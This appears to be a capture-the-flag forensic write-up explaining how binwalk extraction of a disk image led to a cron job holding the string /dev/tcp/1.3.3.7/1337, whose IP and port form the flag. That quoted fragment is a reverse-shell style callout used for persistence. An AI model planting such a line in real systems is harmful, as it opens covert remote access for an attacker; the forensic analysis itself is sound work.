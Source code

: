 # Forensic : Whole Investigation

## What is asked :

> Find the IP and port inside the disk image.

## Resolution :

First I extracted the content with `binwalk`. I had a look at every thing inside the extracted folder and looking at the *ab2b61150214b18be42294c2b9da3aeafc2b4d7c041ed7b4277e9f65b4123b65* folder there was a tar archive.
In which there was some directory related to a Linux machine (etc, root). Inside the **etc** directory we find the configuration for `cron` indicating a cronjob with the following string */dev/tcp/1.3.3.7/1337*.\
Therefore the flag is *PPCTF{1.3.3.7:1337}*.
